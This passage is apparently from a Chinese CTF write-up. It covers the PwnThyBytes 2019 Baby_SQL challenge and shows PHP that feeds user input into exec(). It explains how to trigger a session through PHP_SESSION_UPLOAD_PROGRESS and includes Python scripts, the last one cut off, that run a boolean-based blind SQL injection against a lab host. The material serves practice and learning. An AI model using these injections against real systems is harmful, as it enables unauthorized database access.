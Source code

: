 ```
        }
        echo "<h2>The Count is: " . exec('printf \'' . $count . '\' | wc -c') . "</h2>";
    }
    ?>

</body>

</html>
```

然后再看看首页就可以了，其实也还有许许多多的过滤器可以使用，比如utf16和utf8的转换，下载下来再转换回去就可以了。接着，还有就是打印可打印字符，也可以取得比较好的效果。

## 0x04 [PwnThyBytes 2019]Baby_SQL

这个题目是sql注入应该没有什么问题，并且是username字端存在sql注入。但是有转义函数，二次注入和宽字节注入都不可能了。我们必须看到源码之后发现有一个地方有问题。

![image-20220102111430473](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220102111430473.png)

所以应该有的想法是能不能伪造session，但是session数组是再session_start的函数之后才会被创造出来，所以这里是不行的。关于session的三个考点

1. session反序列化
2. session flask伪造
3. session_upload_progress

我们去查文档的时候发现(翻别人的wp

`在phpsession里如果在php.ini中设置session.auto_start=On，那么PHP每次处理PHP文件的时候都会自动执行session_start()，但是session.auto_start默认为Off。与Session相关的另一个叫session.upload_progress.enabled，默认为On，在这个选项被打开的前提下我们在multipart POST的时候传入PHP_SESSION_UPLOAD_PROGRESS，PHP会执行session_start()`

使用哥哥的脚本来抓包

```php
import requests

url = "http://6a742e0c-c6b0-49a3-b626-f5f0578d17f1.node3.buuoj.cn/templates/login.php"

files = {"file": "123456789"}
a = requests.post(url=url, files=files, data={"PHP_SESSION_UPLOAD_PROGRESS": "123456789"},
                  cookies={"PHPSESSID": "test1"}, params={'username': 'test', 'password': 'test'},
                  proxies={'http': "http://127.0.0.1:8080"})
print(a.text)

```

然后剩下的部分就是随便注入了。https://blog.csdn.net/SopRomeo/article/details/108967248

```python
import requests
import time
url = "http://8757678c-2116-4259-91f3-144900dc9cb4.node4.buuoj.cn:81/templates/login.php"

files = {"file": "123456789"}



'''字段值'''
flag=''
for i in range(1,100):
    low = 32
    high = 128
    mid = (low+high)//2
    while (low < high):
        time.sleep(0.06)
        # payload_flag ={'username': "test\" or (ascii(substr((select group_concat(username) from ptbctf ),{0},1))>{1}) #".format(i, mid),'password': 'test'}
        payload_flag = {
```